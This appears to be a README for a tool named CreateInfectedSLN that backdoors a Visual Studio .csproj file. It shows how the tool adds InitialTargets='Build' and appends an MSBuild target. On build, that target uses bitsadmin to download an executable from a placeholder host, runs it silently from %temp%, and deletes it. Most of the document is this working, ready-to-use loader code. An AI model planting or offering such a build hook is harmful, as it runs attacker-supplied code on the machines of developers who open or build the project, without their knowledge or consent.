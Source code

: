 ## Usage:

CreateInfectedSLN(string Path, string Job, string rURL, string fName)
CreateInfectedSLN(path to .csproj, random string, direct download url, name of file after download);


## So what does this do?

```xml
This edits the file and adds a bit to it:
We change the 15 to 14 and add InitialTargets="Build" 
```

#### Clean .csproj:

```xml 
<Project ToolsVersion="15.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```
#### Modifed .csproj
```xml 
<Project ToolsVersion="14.0" InitialTargets="Build" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 ```

 ### We the append this to the end of the file:
```xml
<Target Name="Build">
    <Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="%temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="del %temp%\Demo.exe" >
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Message Importance="high" Text="$(ErrorCode)"/>
    </Target> 
```
### Here is the bit part: 

We use bitsadmin to assign a job that downloads and runs the process after its downloaded in the background and requires no user interaction.  
```xml
<Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
 ```
## Extra Example: 
```cshap
/*Path = C:\Users\Josh\source\Example\Example\example.csproj;
Job = JOSHN38N;
rURL = http://domain.com/filename.exe;
fName = Demo.exe;*/
```
